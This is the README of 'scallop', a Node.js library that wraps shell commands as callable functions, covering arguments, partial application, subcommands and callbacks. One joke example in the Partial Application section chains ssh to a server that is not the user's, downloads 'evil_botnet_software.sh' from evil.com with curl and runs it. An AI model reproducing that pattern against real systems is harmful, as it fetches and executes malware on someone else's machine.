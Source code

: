 Scallop
=======

![](https://raw.githubusercontent.com/bgw/scallop/master/logo.png)

Shelling out with `child_process` is just ... so ... drab. Relieve the tedium
with `scallop`!

```sh
$ npm i --save-dev scallop
```

```javascript
const scallop = require('scallop');
const curl = scallop('curl', {silent: true});

curl('http://httpbin.org/user-agent', (err, result) => {
  console.log(JSON.parse(result)['user-agent']); // curl/7.30.0
});
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
const mkdir = scallop('mkdir');
mkdir('example_directory');
```

Multiple arguments can be provided.

```javascript
mkdir('-p', 'parent/child');
```

Spaces and the like are automatically escaped.

```javascript
mkdir('Some directory with spaces! Wooo! Rebellion!');
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

### Argument Expansion

Because `Function.apply` is needlessly ugly, you can simply pass arrays beside
literal arguments.

```javascript
const myFolders = ['folderA', 'folderB', 'folderC'];
mkdir('-p', '-v', myFolders);
// which is the same as
mkdir.apply(null, ['-p', '-v'].concat(myFolders));
// or in ES2015
mkdir('-p', '-v', ...myFolders);
```

You can even have nested lists, and they'll all be expanded upon evaluation.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial('-p');
mkdir('another-parent/child');
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
const mkdir = scallop('mkdir', '-p');
```

Alright. That looks cool, but kinda limited in use.

```javascript
const ssh = scallop('ssh');
const definitelyMyServer = ssh.partial('notmyserver.com', '-p 1234');
const remoteCurl = definitelyMyServer.partial('curl', '--silent');

remoteCurl('-O', 'http://evil.com/evil_botnet_software.sh');
definitelyMyServer('sh', 'evil_botnet_software.sh');
// Please only use this on PHP websites
```

### Subcommands

Subcommands are a special case of partial application. `git` uses these heavily.
We can define some of the common subcommands for `git` with the
`defineSubcommands` function.

```javascript
const git = scallop('git').defineSubcommands('status', 'add', 'rm', 'clone');
git.clone('https://github.com/bgw/scallop.git', 'scallop');
```

A subcommand can be defined by a `--dashed-argument`, just pass it to
`defineSubcommands`, and the dashes will be stripped and converted to
`camelCase`.

Some programs might use a tree of these subcommands, which can be accomplished
by defining subcommands with and object. Arrays of subcommands can be
intermingled, forming leaves, or falsy values can be provided to prune the tree.

```javascript
const sudo = scallop('sudo');
sudo.defineSubcommands({ls: null, git: ['status', 'add', 'rm'], echo: null});
sudo.git.add('important_file.txt');
```

#### ES2015 Harmony Proxy Syntax

Having to make a call to `defineSubcommands` sucks, and there's no real reason
(except a lack of language support) why the subcommands should ever have to be
explicitly predefined.

The ES2015 adds [object Proxies][]. These allow us to intercept accesses to an
underlying object. If you enable proxies by passing `--harmony-proxies` or
`--harmony` to `node`, then you can use some alternate syntax. There's no
portable way to compile away or polyfill the Proxy API. Eventually this
language feature should be enabled by default in future versions of node.

[object Proxies]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

```javascript
scallop.ssh['bgw@benjam.info'].git.rm('important_file.txt');
```

Take *that*, ES5!

Callbacks
---------

Because the output of commands is **occasionally useful**, I guess it might be
**moderately interesting** if there was some way to read them. The easiest way
is with a callback.

```javascript
const _s = require('underscore.string');
const ls = scallop('ls', '-1');
ls((err, result) => {
  if (err) {
    throw err; // Oh my god! Something horrible must have happened!
  }
  console.log(_s.strip(result).split('\n'));
});
// ['another_parent', 'example_directory', ... ]
```

**Warning:** All calls resulting in shell execution are asynchronous, so there's
no way to catch errors or control execution flow without a callback.

Keyword Arguments
-----------------

As the last argument (before a callback), you may specify keyword arguments as
an object. These keyword arguments get rewritten as follows:

-   Single letter keys get a single dash prepended to them: `-s`
-   Multi-letter keys get two dashes prepended to them: `--long`
-   Integer values get converted to strings
-   Boolean values trigger some special casing (see below)
-   The value is appended after the key, separated by an equals sign:
    `--key=value`

### Boolean Keyword Arguments

It makes sense to think of the keyword arguments as an "options argument".
Fitting this analogy, keyword arguments with boolean values get processed
differently:

-   When true, the keyword gets one or two dashes prepended to it. No value is
    written out.
-   When false, the entire entry is ignored.

As an example, the object

```javascript
{verbose: false, escape: true, color: false, literal: true, a: true}
```

Would translate into

```
--escape --literal -a
```

### Use with a callback

The callback is **always the last** argument. As a result, the call remains
readable with coffescript or ES2015 arrow function syntax.

```coffeescript
ls = sh 'ls'
ls '-1', all: true, recursive: false, (err, res) ->
  console.log res
```

```js
ls = sh('ls');
ls('-1', {all: true, recursive: false}, (err, res) => {
  console.log(res);
});
```

### "Special" Keyword Arguments

Keys prepended with an _underscore act a bit differently. The following special
arguments are supported

-   `_cwd`: Current working directory
-   `_env`: An object of environment variables
-   `_uid`: The numerical ID or the string username of the user to execute as
-   `_gid`: The numerical ID or the string group of the user to execute as
-   `_encoding`: The encoding of stdout and stderr as a string. [Any encoding
    node supports][] can be passed. If given a falsy value, such as `null`, the
    stream will be treated as binary. Default is `utf8`.
-   `_okCode`: A number or array of numbers representing valid exit codes.
    Defaults to `0`.

  [Any encoding node supports]: http://nodejs.org/api/stream.html#stream_readable_setencoding_encoding

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`scallop` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted
on GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!
